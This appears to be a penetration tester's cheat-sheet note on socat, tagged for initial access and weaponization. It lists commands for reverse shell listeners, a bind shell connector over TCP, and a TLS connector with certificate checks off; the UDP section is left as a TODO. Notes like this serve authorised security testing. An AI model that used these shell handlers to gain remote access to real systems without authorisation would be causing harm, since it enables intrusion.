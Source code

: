```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - socat
---
```

# Socat

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

> [!NOTE]
> Using root privileges to bind a listener to ports below 1024.

## 01 - Reverse Shell Handler

### 1.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>

$ socat -d -d tcp4-listen:443 STDOUT
```

## 02 - Bind Shell Handler

### 2.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```

### 2.2 - UDP Method

TODO: Make another shell handler for UDP

### 2.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Cross Platform/Payloads/One-Liners/Socat]]